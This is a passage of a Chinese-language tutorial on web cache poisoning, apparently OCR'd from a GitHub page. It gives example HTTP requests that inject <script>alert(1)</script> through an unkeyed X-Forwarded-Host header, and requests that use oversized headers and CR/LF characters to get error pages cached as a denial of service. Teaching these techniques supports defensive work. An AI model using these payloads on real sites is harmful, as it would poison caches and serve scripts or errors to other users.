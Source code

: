   - 请求：
    ```http
    GET /search?q=<script>alert(1)</script> HTTP/1.1
    ```
  - 后端返回：
    ```html
    Search results for: <script>alert(1)</script>
    ```

##### **3.2.4 确保被污染的响应被缓存**
攻击者需要确保缓存服务器将响应存储为缓存条目，以影响后续用户访问。
- **关键点**：
  - 响应的 `Cache-Control`：
    - 确保未设置 `no-store` 或 `private`。
    - 示例头部：
      ```http
      Cache-Control: public, max-age=3600
      ```
  - 确保缓存服务器不验证非缓存键对响应的影响。
- **检查缓存命中**：
  - 再次访问相同的 URL，验证是否返回被污染的响应。

---

#### **3.3 缓存中毒利用示例**

---

##### **Easiest Example**

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```

- `X-Forwarded-Host` 是一个 非缓存键，即缓存服务器不会将其值纳入缓存逻辑。
- 后端服务器处理 `X-Forwarded-Host` 并将其值直接反映在响应中。
- 当其他用户访问 `/en?region=uk` 时，缓存服务器直接返回已缓存的恶意响应，触发 XSS 攻击。

---

##### **Cache poisoning to DoS**

1. **HTTP 头部超长（HTTP Header Oversize）**：发送一个头部长度超过源服务器支持但在缓存服务器支持范围内的请求，源服务器返回400错误，缓存服务器将其缓存，导致后续用户收到错误响应。
    ```http
    GET / HTTP/1.1
    Host: redacted.com
    X-Oversize-Hedear:Big-Value-000000000000000
    ```

2. **HTTP 元字符（HTTP Meta Character）和意外值**：在请求头中插入有害的元字符（如`\n`、`\r`）或意外的值，可能导致源服务器返回错误响应，且被缓存。
    ```http
    GET / HTTP/1.1
    Host: redacted.com
    X-Meta-Hedear:Bad Chars\n \r
    ```
